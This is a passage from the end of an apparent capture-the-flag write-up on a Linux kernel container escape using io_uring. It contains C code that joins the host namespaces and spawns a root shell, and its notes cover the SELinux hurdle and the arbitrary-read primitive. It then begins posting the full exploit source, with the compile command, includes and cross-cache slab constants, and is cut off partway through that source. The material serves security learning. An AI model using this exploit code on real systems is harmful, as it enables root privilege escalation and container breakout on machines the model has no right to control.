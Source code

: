 ```c
            info("Child dropping into root shell...");
            if (setns(open("/proc/self/ns/mnt", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/pid", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/net", O_RDONLY), 0) == -1) { err("`setns()`"); }
            char *args[] = {"/bin/sh", NULL, NULL};
            execve(args[0], args, NULL);
        }

        else { sleep(2); }
    }
}
```

And finally I was able to drop into a `root` shell and capture the flag, escaping the container. One huge obstacle when I tried using my exploit on the Google infrastructure was that their kernel was compiled with SELinux support and my test environment was not. This ended up not being a big deal, I had some out of band confirmation/paranoia checks I had to leave out but fortunately the arbitrary read we used isn't actually hooked in any way by SELinux unlike most of the other `fcntl` syscall flags. At that point remember, we don't know enough information to fake any objects in memory so I'd be dead in the water if that read method was ruined by SELinux. 

## Conclusion 
This was a lot of fun for me and I was able to learn a lot. I think these types of learning challenges are great and low-stakes. They can be fun to work on with friends as well, big thanks to everyone mentioned already and also [@chompie1337](https://twitter.com/chompie1337) who had to listen to me freak out about not being able to read the flag once I had overwritten my creds. The exploit is posted below in full, let me know if you have any trouble understanding any of it, thanks.
```c
// Compile
// gcc sploit.c -o sploit -l:liburing.a -static -Wall

#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <stdarg.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/msg.h>
#include <sys/timerfd.h>
#include <sys/mman.h>
#include <sys/prctl.h>

#include "liburing.h"

// /sys/kernel/slab/filp/objs_per_slab
#define OBJS_PER_SLAB 16UL
// /sys/kernel/slab/filp/cpu_partial
#define CPU_PARTIAL 52UL
// Multiplier for cross-cache arithmetic
#define OVERFLOW_FACTOR 2UL
// Largest number of objects we could allocate per Cross-cache step
#define CROSS_CACHE_MAX 8192UL
// Fixed mapping in cpu_entry_area whose contents is NULL
#define NULL_MEM 0xfffffe0000002000UL
// Reading side of pipe
#define PIPE_READ 0
// Writing side of pipe
#define PIPE_WRITE 1
```